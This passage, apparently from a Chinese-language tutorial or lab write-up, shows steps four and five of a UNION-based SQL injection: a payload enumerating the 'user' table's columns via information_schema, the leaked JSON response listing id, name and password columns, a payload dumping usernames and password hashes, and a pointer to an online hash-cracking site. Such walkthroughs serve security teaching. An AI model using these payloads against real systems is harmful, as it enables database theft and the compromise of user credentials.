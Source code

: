 **step4：** 根据以上的返回结果，我们可以看出当前的数据库名称为：**security**，一共有三个表：**database_lock**、**product**、**user**。那么根据常理推测，**user**这个表极有可能存储的就是网站的用户名密码等信息。接下来我们通过表明反查出这个表有哪些列。`1 union select 1,column_name, 3,4,5 from information_schema.columns where table_name = 'user'--`

```java
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 1,
    "productName": "id",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "name",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "password",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "create_time",
    "specification": "3",
    "type": "4",
    "price": 5
  },
  {
    "id": 1,
    "productName": "update_time",
    "specification": "3",
    "type": "4",
    "price": 5
  }
]
```

**step5：** 知道了表结构就可以通过union语句联合查询出对应表的所有数据：`1 union select id,name, password,4,5 from user `。发现其中password是加密过的，我们去百度破解一下。[破解网站](https://www.cmd5.com/)

